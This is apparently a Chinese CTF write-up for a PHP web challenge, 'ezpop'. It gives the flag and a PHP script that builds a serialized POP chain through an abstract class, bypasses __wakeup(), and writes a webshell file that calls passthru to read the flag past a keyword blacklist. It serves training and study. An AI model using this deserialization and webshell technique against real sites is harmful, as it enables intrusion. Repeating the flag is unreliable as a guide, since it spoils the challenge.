 - **题目名称：** ezpop
- **题目类型：** WEB
- **题目难度：** 中等 
- **出题人：** ABU
- **考点：**

1. 反序列化__wakeup()绕过
2. php抽象类反序列化
3. 命令执行绕过

- **描述：** 听说你是pop大师！

- **flag：** flag{Y0u_Ar3_A_POP_Ma5ter!!!!}

- **Writeup：** 

  php抽象类不能被直接实例化，但其子类可以实例化，并可以通过子类来调用父类方法，并且子类必须实现父类的抽象方法，所以可以通过实例化evil来调用到父类的action方法，进入shell方法，此方法为抽象方法，在子类里实现，所以便进入evil的shell方法，用passthru函数绕过函数过滤，用sort读取flag。（当然要先绕过__wakeup()

```php
<?php
class openfunc{
    protected $object;
    function __construct(){
        $this->object=new evil();
    }
    function __wakeup(){
        $this->object=new normal();
    }
    function __destruct(){
        $this->object->action();
    }
}
abstract class hack {

    abstract protected function shell();

    public function action() {
        $this->shell();
    }
}
class normal{
    function action(){
        echo "you must bypass it";
    }
}
class evil extends hack {
    protected $data;
    function __construct(){
        $this->data='<?=passthru("sort /fffffl?ggggg");?>';
    }
    protected function shell(){
        $hack=fopen("hack.php","w") or die("Unable 2 open");
        if(preg_match('/system|eval|exec|base|compress|chr|ord|str|replace|pack|assert|preg|replace|create|function|call|\~|\^|\`|flag|cat|tac|more|tail|echo|require|include|proc|open|read|shell|file|put|get|contents|dir|link|dl|var|dump/i',$this->data)){
            die("you die");
           }
        fwrite($hack,$this->data);
        fclose($hack);
    }
}
$a=serialize(new Openfunc());
echo $a;
echo urlencode($a);
?>
```

